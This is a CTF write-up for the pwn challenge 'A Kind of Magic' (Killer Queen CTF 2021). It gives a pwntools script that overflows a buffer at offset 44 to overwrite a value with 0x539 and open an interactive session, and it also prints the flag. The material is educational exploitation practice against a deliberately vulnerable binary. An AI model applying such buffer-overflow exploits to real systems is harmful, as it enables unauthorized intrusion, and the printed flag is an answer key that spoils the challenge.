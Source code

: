 ```yaml
---
name: A Kind of Magic (2021)
event: Killer Queen CTF 2021
category: Pwn
description: Writeup for A Kind of Magic (pwn) - Killer Queen CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# A Kind of Magic

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/xOHLniVJsJY/0.jpg)](https://youtu.be/xOHLniVJsJY?t=1806s "Killer Queen 2021: A Kind of Magic")

## Challenge Description

> You're a magic man aren't you? Well can you show me?

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './akindofmagic'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 44

# Start program
io = start()

# Build the payload
payload = flat({
    offset: 0x539
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(':', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `flag{i_hope_its_still_cool_to_use_1337_for_no_reason}`
